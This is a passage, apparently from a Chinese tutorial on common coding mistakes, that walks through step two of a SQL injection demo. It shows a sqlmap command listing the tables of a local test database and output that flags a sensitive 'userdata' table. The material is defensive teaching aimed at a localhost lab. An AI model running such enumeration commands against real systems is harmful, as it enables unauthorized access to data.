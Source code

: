 第二步，查询数据库下的表：

```
python sqlmap.py -u  http://localhost:45678/sqlinject/jdbcwrong --data name=test --tables -D "common_mistakes"



```

可以看到其中有一个敏感表 userdata：

```
Database: common_mistakes



[7 tables]



+--------------------+



| user               |



| common_store       |



| hibernate_sequence |



| m                  |



| news               |



| r                  |



| userdata           |



+--------------------+



```
